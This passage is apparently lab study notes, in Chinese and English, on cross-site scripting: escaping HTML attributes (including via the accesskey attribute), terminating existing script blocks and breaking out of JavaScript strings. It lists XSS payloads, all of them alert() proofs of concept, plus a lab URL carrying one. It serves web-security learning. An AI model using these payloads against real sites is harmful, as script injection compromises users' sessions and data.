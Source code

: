 能闭合的话

```html
for example：
" autofocus onfocus=alert(document.domain) x="
"><script>alert(document.domain)</script>
"onmouseover="alert(1)
```

or use **accesskey** attribute，

允许您定义一个字母，当与其他键组合按下时（这些键在不同平台上有所不同），将引发事件。在下一个lab中可以试验access keys并利用规范标记。

```html
lab：
https://your-lab-id.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

To trigger the exploit on yourself, press one of the following key combinations:

- On Windows: ALT+SHIFT+X
- On MacOS: CTRL+ALT+X
- On Linux: Alt+X

## XSS into JavaScript

当XSS上下文是响应中的一些现有JavaScript时，可能会出现各种各样的情况，需要使用不同的技术来执行成功的攻击。

### Terminating the existing script

```html
<script>
...
var input = 'controllable data here';
...
</script>
```

then you can use the following payload to break out of the existing JavaScript and execute your own:

```html
</script><img src=1 onerror=alert(document.domain)>
```

### Breaking out of a JavaScript string

Some useful ways of breaking out of a string literal are:

```
'-alert(document.domain)-'
';alert(document.domain)//
' ;alert(1)//
\';alert(1)//
```

WAF solution：
